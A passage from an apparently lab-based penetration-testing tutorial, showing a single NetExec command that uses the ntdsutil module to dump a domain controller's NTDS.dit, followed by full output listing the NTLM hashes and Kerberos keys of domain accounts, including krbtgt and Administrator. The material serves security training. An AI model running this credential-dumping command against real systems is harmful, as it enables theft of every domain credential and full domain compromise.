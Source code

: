 Alternatively, we may benefit from using NetExec to accomplish the same steps shown above, all with one command. This command allows us to utilize VSS to quickly capture and dump the contents of the NTDS.dit file conveniently within our terminal session.

```shell-session
$ netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil

SMB         10.129.201.57   445     DC01         [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefrieght.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57   445     DC01         [+] inlanefrieght.local\bwilliamson:P@55w0rd! (Pwn3d!)
NTDSUTIL    10.129.201.57   445     DC01         [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\174556000
NTDSUTIL    10.129.201.57   445     DC01         Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.129.201.57   445     DC01         [+] NTDS.dit dumped to C:\Windows\Temp\174556000
NTDSUTIL    10.129.201.57   445     DC01         [*] Copying NTDS dump to /tmp/tmpcw5zqy5r
NTDSUTIL    10.129.201.57   445     DC01         [*] NTDS dump copied to /tmp/tmpcw5zqy5r
NTDSUTIL    10.129.201.57   445     DC01         [+] Deleted C:\Windows\Temp\174556000 remote dump directory
NTDSUTIL    10.129.201.57   445     DC01         [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.129.201.57   445     DC01         Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
NTDSUTIL    10.129.201.57   445     DC01         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.129.201.57   445     DC01         DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:1104:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:1105:aad3b435b51404eeaad3b435b51404ee:4f3c625b54aa03e471691f124d5bf1cd:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-NKHHJGP3SMT:1106:aad3b435b51404eeaad3b435b51404ee:a74cc84578c16a6f81ec90765d5eb95f:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-K5E9CWYEG7Z:1107:aad3b435b51404eeaad3b435b51404ee:ec209bfad5c41f919994a45ed10e0f5c:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-5MG4NRVHF2W:1108:aad3b435b51404eeaad3b435b51404ee:7ede00664356820f2fc9bf10f4d62400:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-UISCTR0XLKW:1109:aad3b435b51404eeaad3b435b51404ee:cad1b8b25578ee07a7afaf5647e558ee:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-ETN7BWMPGXD:1110:aad3b435b51404eeaad3b435b51404ee:edec0ceb606cf2e35ce4f56039e9d8e7:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\bwilliamson:1125:aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\bburgerstien:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jstevenson:1131:aad3b435b51404eeaad3b435b51404ee:bc007082d32777855e253fd4defe70ee:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jjohnson:1133:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jdoe:1134:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
NTDSUTIL    10.129.201.57   445     DC01         Administrator:aes256-cts-hmac-sha1-96:cc01f5150bb4a7dda80f30fbe0ac00bed09a413243c05d6934bbddf1302bc552
NTDSUTIL    10.129.201.57   445     DC01         Administrator:aes128-cts-hmac-sha1-96:bd99b6a46a85118cf2a0df1c4f5106fb
NTDSUTIL    10.129.201.57   445     DC01         Administrator:des-cbc-md5:618c1c5ef780cde3
NTDSUTIL    10.129.201.57   445     DC01         DC01$:aes256-cts-hmac-sha1-96:113ffdc64531d054a37df36a07ad7c533723247c4dbe84322341adbd71fe93a9
NTDSUTIL    10.129.201.57   445     DC01         DC01$:aes128-cts-hmac-sha1-96:ea10ef59d9ec03a4162605d7306cc78d
NTDSUTIL    10.129.201.57   445     DC01         DC01$:des-cbc-md5:a2852362e50eae92
```